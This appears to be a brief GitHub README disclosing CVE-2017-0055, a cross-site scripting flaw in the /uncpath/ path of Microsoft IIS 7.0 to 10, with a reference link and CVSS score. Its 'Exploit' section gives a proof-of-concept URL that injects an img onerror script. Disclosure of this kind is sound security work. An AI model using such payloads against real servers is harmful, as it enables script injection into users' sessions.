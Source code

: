 # CVE-2017-0055
MICROSOFT IIS 7.0/7.5/8.0/8.5/10 /UNCPATH/ CROSS SITE SCRIPTING

Reference: https://vuldb.com/?id.98097
```
CVSS Score: 5.0
```

## Exploit
```
http://vulniis/uncpath/%3Cimg%20onerror=alert('xss')%20src=/%3E:/
```
